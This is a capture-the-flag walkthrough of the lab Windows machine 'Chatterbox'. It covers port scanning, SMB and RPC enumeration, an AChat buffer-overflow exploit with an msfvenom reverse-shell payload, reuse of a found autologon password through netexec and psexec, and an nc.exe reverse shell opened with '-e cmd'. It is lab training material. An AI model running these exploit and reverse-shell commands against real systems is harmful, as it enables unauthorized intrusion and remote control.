- Machine Name: **Chatterbox**
- OS type: Windows
- Difficulty: Intermediate

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Thu Apr 17 00:50:02 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.74
Nmap scan report for 10.10.10.74
Host is up, received echo-reply ttl 127 (0.31s latency).
Scanned at 2025-04-17 00:50:03 EDT for 224s
Not shown: 65209 closed tcp ports (reset), 315 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         syn-ack ttl 127 AChat chat system httpd
| http-methods: 
|_  Supported Methods: POST OPTIONS
|_http-server-header: AChat
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
9256/tcp  open  achat        syn-ack ttl 127 AChat chat system
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38735/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19060/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 64306/udp): CLEAN (Failed to receive data)
|   Check 4 (port 60313/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-04-17T09:53:19
|_  start_date: 2025-04-17T09:47:49
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h19m57s, deviation: 2h18m37s, median: 4h59m55s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-04-17T05:53:23-04:00

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 17 00:53:47 2025 -- 1 IP address (1 host up) scanned in 225.41 seconds
```

## Enumeration

### Port 139,445/SMB

i’ll start my enumeration process from SMB, let’s check for Null session using 

```bash
smbclient -L //10.10.10.74 -N
```



Anonymous login successful but no shares are listed

### Port 135/MSRPC

moving forward let’s check the MSRCP using `rpcclient`

```bash
rpcclient -U "" -N 10.10.10.74
```



running `enumdomusers` it returns access denied message

### Port 9255/? (AChat chat system)

nmap scan shows there’s http service running on port 9255, i tried using firefox but site won’t load so i used the curl with -v to see anything interesting



the server header shows - **AChat,** which already identified by nmap

searching for Achat Chat system i found - *Achat is **a safe voice chat application for Indians to make friends, and socialize with their Indian friends***

searching for exploit using searchsploit 



```bash
searchsploit -m windows/remote/36025.py
```

copy exploit to current working directory , now we need to generate buffer code for our IP and port to get reverse shell

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=10.10.14.17 lport=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

replace lhost and lport with your Listening ip and listening port

paste the generated code to [36025.py](http://36025.py) start the netcat listener using `rlwrap -r nc -nvlp 443` and run the exploit using 

change the target ip in [36025.py](http://36025.py) 



```bash
python2 36025.py
```

run the exploit and check for the reverse shell on netcat listener 



Simply run the winPEAS i found the autologon credentials 



i’ll try this password for administrator user using netexec

```bash
netexec smb 10.10.10.74 -u Administrator -p 'Welcome1!'
```



**Pwn3d!** indicates that the Chatterbox welcomes it’s new ruler

i’ll use impacket-psexec to get system shell

```bash
impacket-psexec Administrator:'Welcome1!'@10.10.10.74
```



### Even System user can’t read it.

now what next! we need to get access as administrator there are many ways such as we can use https://github.com/antonioCoco/RunasCs but here i’ll show you alternate method

we can use the netexec to run command as specific user, as we have the valid password of administrator we can execute command as administrator using `-x` 

execute whoami command to see what user it is executing commands as 

```bash
netexec smb 10.10.10.74 -u Administrator -p 'Welcome1!' -x whoami
```



nice it’s time to get shell i created temp directory in C:\ and uploaded the nc.exe to \temp folder

now run below command after starting reverse shell listener on port 443

```bash
netexec smb 10.10.10.74 -u Administrator -p 'Welcome1!' -x '\temp\nc.exe 10.10.14.17 443 -e cmd'
```

